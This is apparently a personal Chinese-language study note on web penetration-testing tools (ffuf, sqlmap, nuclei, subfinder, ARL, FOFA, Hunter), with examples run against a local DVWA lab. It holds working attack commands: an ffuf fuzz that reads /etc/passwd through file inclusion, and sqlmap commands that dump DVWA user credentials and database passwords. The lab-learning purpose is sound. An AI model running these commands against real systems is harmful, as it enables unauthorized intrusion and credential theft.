









待学习工具:
https://github.com/ffuf/ffuf
https://github.com/sqlmapproject/sqlmap
https://github.com/projectdiscovery/nuclei
https://github.com/projectdiscovery/subfinder
https://github.com/Aabyss-Team/ARL
https://fofa.info/
https://hunter.qianxin.com/


## FFUF : 目录模糊爆破

```
https://github.com/ffuf/ffuf
```

**模糊爆破、目录爆破、子域名爆破、联动bp**
FFUF（Fast Fuzzing Framework Utility）是基于Go语言开发的一款快速、轻量级的模糊测试工具，主要用来进行大规模的文件或目录扫描发现。它具有极快的速度和低资源消耗特性，能够快速枚举Web服务器上可能存在的隐藏路径和文件名


Fuzzing工具: 不断向被测试的系统发送不同的参数, 这些参数有可能是无效的, 也有可能是错误的, 通过测试系统的回复, 来得出系统有哪些错误或者漏洞


### 配合SecLists字典

```
https://github.com/danielmiessler/SecLists
```

字典列表类型包括用户名, 密码, URL, 敏感数据模式, 模糊测试Payload, WebShell等

用Discovery发现字典中的Web-Content中的common.txt就可以了

```
/home/kali/Downloads/zidian/SecLists-2024.1/Discovery/Web-Content
```


### 使用实例: (Linux)

实例:

```
ffuf -w /home/kali/Downloads/zidian/SecLists-2024.1/Discovery/Web-Content/common.txt -c -v -u http://192.168.231.128:12345/vulnerabilities/fi/?FUZZ=/etc/passwd -mc 200 -b "PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low"
```

参数: -w 设置字典   -u 设置url    -fs 过滤指定大小的HTTP响应消息   -mc 200  过滤返回响应状态码200的(如果是all就是全部)   -c显示颜色  -v显示详细信息  -t 线程率，默认40


```
ffuf -w /home/kali/Downloads/zidian/SecLists-2024.1/Discovery/Web-Content/common.txt -u http://192.168.1.217/api/deviceMsg/FUZZ -c -v
```


## SQL Map : SQL注入

```
https://sqlmap.org/

https://github.com/sqlmapproject/sqlmap
```

SQLMAP是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL和SQL注入漏洞，其广泛的功能和选项包括数据库指纹，枚举，数据库提权，访问目标文件系统，并在获取操作权限时执行任意命令。


### 安装注意:

1.下载最新python版本和SQL Map最新版本

2.别忘了添加环境变量



3.去对应sql map的目录下打开cmd操作即可


### 使用说明:

```
https://github.com/sqlmapproject/sqlmap/wiki/Introduction  //官方文档

https://cloud.tencent.com/developer/article/2300792   //中文相关文档
```

### 使用实例: (Windows)

1.安装

2.抓包url, 并在sqlmap目录下cmd输入

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit"
```

3.显示302重定向到登录页面, 说明需要cookie

复制cookie: PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low"
```

参数 : --batch 默认回答, --dbs  所有数据库名称相关信息 , --current-db  查看该数据库名称,  


拿到数据库名称为dvwa, 在执行:

-D dvwa --tables(列出dvwa数据库中全部表名), 拿到users表名

修改命令-D dvwa -T users --columns（如上图所示，列出user表中字段信息）, 拿到字段信息

修改命令-D dvwa -T users -C user,password,user_id --dump（一般数据库中的信息都会加密，这个命令可以直接显示解密后的情况，并且会自动保存到本地）

```
python sqlmap.py -u "http://192.168.231.128:12345/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low" --batch --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```


补充:

7、当前使用的账户

python sqlmap.py -r “响应包路径” --current-user

8、列出所有使用过的账户

python sqlmap.py -r “响应包路径” –users

9、mysql的登录账户和密码

python sqlmap.py -r “响应包路径” –passwords

```
https://blog.csdn.net/tmzy1/article/details/129628305
```

#### dvwa中等难度

使用txt文件, 将拦截的请求信息复制到sqlmap目录下的1.txt中

```
python sqlmap.py -r 1.txt --batch --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```


#### dvwa高难度:

有两个请求, 第一个请求是入口, 第二个请求是真正的响应, 现在需要将两个请求连起来

```
http://192.168.231.128:12345/vulnerabilities/sqli/
```

```
python sqlmap.py -r 1.txt --batch --second-url="http://192.168.231.128:12345/vulnerabilities/sqli/" --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```


## Nuclei : 漏扫

```
https://github.com/projectdiscovery/nuclei    
https://github.com/projectdiscovery/nuclei-templates  //漏洞模板
```

Nuclei 是一种可快速利用的 **漏洞扫描**程序。 Nuclei 的核心是利用模板（表示为简单的 YAML 文件）来描述检测、排名和解决特定 安全漏洞 的方法。 每个模板都描述了可能的攻击路线，详细说明了漏洞、其严重性、优先级以及偶尔出现的相关漏洞。这种以模板为中心的方法确保 Nuclei 不仅可以识别威胁，还可以精确定位具有切实现实影响的可利用漏洞。

Nuclei引擎使用**文本文件模板来定义检测漏洞所需的步骤, 主要是使用大量模板去扫某网站漏洞**

**可与FOFA等网络空间资产测绘网站进行联动, 去扫洞**

### 安装注意:

根据github上的步骤来即可, 

需要安装最新的go, 然后安装Nuclei的时候, 需要设置一下go的防火墙:

```
https://blog.csdn.net/weixin_42852778/article/details/125720599
```




### 使用说明:

```
https://github.com/projectdiscovery/nuclei/blob/main/README_CN.md  //中文说明

https://docs.projectdiscovery.io/tools/nuclei/overview  //官方文档(重要)
```


### 使用实例: (Windows)

默认模板库扫描:

```
nuclei -u 192.168.231.128:12345 -H 'cookie:PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low'

如果需要指定请求头: 使用-header或者-H

nuclei -u http://192.168.231.128:12345/vulnerabilities/sqli -H 'cookie:PHPSESSID=qg16nb09dooabqr5ot6e0ilbg2; security=low'
```


自定义模板

```
nuclei -u url -t cves/(这个是目录)
```


其中具体指定多个url也可以也使用模板:

```
nuclei -l xxx.txt, 其中就写url
```


工作流模板:

```
nuclei -u url -w workflows/XXX.yaml
```


如第一个请求中的内容提取某些需要的数据放到第二个请求中, 如token cookie等..

模板需要过滤器相关的话参照官方文档即可




## Subfinder : 子域名收集

```
https://github.com/projectdiscovery/subfinder
```

Subfinder 是一款专注于子域名收集的开源工具，该工具通过与多个子域名源（例如搜索引擎、DNS数据）集成.

特点:

1.Subfinder 集成了多个子域名源，包括但不限于谷歌（Google）、Shodan、Censys、Virustotal等，以提高搜集的全面性。

2.快速并发：

3.DNS 数据源： 工具可以利用DNS数据，通过查询DNS服务器来发现子域名。这包括常规域传输、DNS枚举和暴力破解。

4.API支持： Subfinder 提供了对多个子域名API的支持，以允许用户在工具中集成自定义的数据源。

5.漏洞扫描集成： Subfinder 还可以与漏洞扫描工具（如 Amass、Assetnote、Virustotal）进行集成，以提供更全面的信息。

6.结果导出： Subfinder 支持将搜集到的子域名结果导出为常见的文件格式，如文本文件、JSON和CSV。

7.自定义字典： 用户可以使用自定义字典进行子域名的暴力破解尝试，以满足特定的搜集需求。

### 使用说明:

```terminal
Flags:
输入:
  -d, -domain string[]  要查找子域名的域名
  -dL, -list string     包含要进行子域名发现的域名列表的文件
 
来源:
  -s, -sources string[]           用于发现的特定来源（-s crtsh,github）。使用 -ls 显示所有可用来源。
  -recursive                      仅使用能够递归处理子域的来源（例如 subdomain.domain.tld vs domain.tld）
  -all                            使用所有来源进行枚举（速度较慢）
  -es, -exclude-sources string[]  从枚举中排除的来源（-es alienvault,zoomeyeapi）
 
过滤:
  -m, -match string[]   要匹配的子域名或子域名列表（文件或逗号分隔）
  -f, -filter string[]   要过滤的子域名或子域名列表（文件或逗号分隔）
 
速率限制:
  -rl, -rate-limit int  每秒发送的最大HTTP请求数
  -rls value            每秒为四个提供程序发送的最大HTTP请求数（以 key=value 格式，例如 -rls "hackertarget=10/s,shodan=15/s"）
  -t int                用于解析的并发goroutines数（仅在 -active 模式下）（默认 10）
 
更新:
   -up, -update                 更新 subfinder 到最新版本
   -duc, -disable-update-check  禁用自动 subfinder 更新检查
 
输出:
  -o, -output string       要写入输出的文件
  -oJ, -json               以 JSONL(ines) 格式写入输出
  -oD, -output-dir string  要写入输出的目录（仅对 -dL 有效）
  -cs, -collect-sources    在输出中包含所有来源（仅在 -json 模式下有效）
  -oI, -ip                 在输出中包含主机IP（仅在 -active 模式下有效）
 
配置:
  -config string                配置文件路径（默认为 "$CONFIG/subfinder/config.yaml"）
  -pc, -provider-config string  提供程序配置文件路径（默认为 "$CONFIG/subfinder/provider-config.yaml"）
  -r string[]                   逗号分隔的要使用的解析器列表
  -rL, -rlist string            包含要使用的解析器列表的文件
  -nW, -active                  仅显示活动的子域
  -proxy string                 用于 subfinder 的 HTTP 代理
  -ei, -exclude-ip              从域名列表中排除IP地址
 
调试:
  -silent             仅显示输出中的子域名
  -version            显示 subfinder 的版本
  -v                  显示详细输出
  -nc, -no-color      禁用输出中的颜色
  -ls, -list-sources  列出所有可用来源
 
优化:
  -timeout int   在超时之前等待的秒数（默认 30）
  -max-time int  等待枚举结果的分钟数（默认 10）
```

### 使用实例: (Windows)

先在配置文件中配置好资产测绘网站的API: (Windows)

```
C:\Users\ASUS\AppData\Roaming\subfinder\provider-config.yaml
```

使用:

```
subfinder -d xxx.com -s hunter      //配合hunter的API
```


## ARL : 网络资产侦察与监控

```
https://github.com/Aabyss-Team/ARL
```

ARL (Asset Reconnaissance Lighthouse)资产侦察灯塔系统:

旨在快速侦察与目标关联的互联网资产，构建基础资产信息库。可以有效侦察和检索资产，发现存在的薄弱点和攻击面。


### 安装:

拉项目镜像并运行:

```
docker pull honmashironeko/arl-docker-all
```

```
docker run -d -p 5003:5003 --name arl --privileged=true honmashironeko/arl-docker-all /usr/sbin/init
```


### 使用说明:

```
https://tophanttechnology.github.io/ARL-doc/    //文档(重要)
```

### 使用实例: (Linux)

1.先配置策略, 这里测试可以选择全扫, 方便观察:




2.新建我们需要监测的资产:



3.对应资产下添加想要的监控任务即可:




4.等待扫描任务结束后去任务管理查看相关结果:





## 在线工具-网络空间资产测绘网站

### FOFA

```
https://fofa.info/
```

▌FOFA是什么？
FOFA是一款网络空间测绘的搜索引擎，旨在帮助用户以搜索的方式查找公网上的互联网资产。

简单来说，FOFA的使用方式类似于谷歌或百度，用户可以输入关键词来匹配包含该关键词的数据。不同的是，这些数据不仅包括像谷歌或百度一样的网页，还包括像摄像头、打印机、数据库、操作系统等资产。

网络空间测绘可以被认为是网络空间的“地图”。就像谷歌地图或高德地图通过卫星图像对地形进行测绘，网络空间测绘也是通过技术探针对全球网络资产进行探测。

然而，网络空间分为公网和内网。FOFA主要针对公网上的资产进行探测，类似于谷歌地图上的建筑物（IP地址），虽然可以看到建筑物的外部结构和规模，但无法了解内部的情况。这是因为侵犯内网的隐私是违法的。

▌FOFA能做什么？
FOFA的作用之一就是对企业所有暴露在公网的暴露面进行梳理，帮助企业最大程度上保护自己的互联网资产。

举例来说，就像病毒可以通过多种渠道侵入人体，企业设备也可能存在漏洞被黑客攻击。虽然企业可以通过防护措施减少暴露面，如戴口罩和防护服，但黑客仍然可能通过"小伤口"或"气溶胶"入侵企业内网。类似地，企业设备也可能存在多种暴露面，从而存在被黑客攻击的风险。

类比于医生检测流感的方法，当漏洞出现时，企业可以快速检测自己的资产是否受影响，并及时采取措施防止漏洞被不法分子利用。这有助于企业保护自己的网络安全。

当然除了企业自己对自己的资产进行梳理和保护外，有一批叫做白帽子的团体也会通过FOFA进行漏洞挖掘。他们就像一个个猎手一样，当他们发现某个产品有通用型漏洞的时候，可以通过FOFA的搜索快速地收集到这个产品在全网的资产总量和地区分布，对漏洞影响范围进行判断，并帮助企业应对其网络安全的问题。

同样地，对于高校或者机构的研究人员，也可以通过FOFA快速地确认某一款产品在全球的资产分布情况。比如某某厂商旗下的一款摄像头在全球已经部署了多少台，每个国家/地区拥有多少量，可以快速地为他们的研究提供真实的数据支撑能力。


### Hunter(鹰图平台)

```
https://hunter.qianxin.com/
```

奇安信网络空间测绘平台（简称 HUNTER 平台），可对全球暴露在互联网上的服务器和设备进行：资产探测、端口探活、协议解析、应用识别。通过网络空间测绘技术，将地理空间、社会空间、网络空间相互映射，将虚拟的网络空间绘制成一幅动态、实时、有效的网络空间地图，实现互联网资产的可查、可定位，来解决互联资产暴露面梳理的难题。

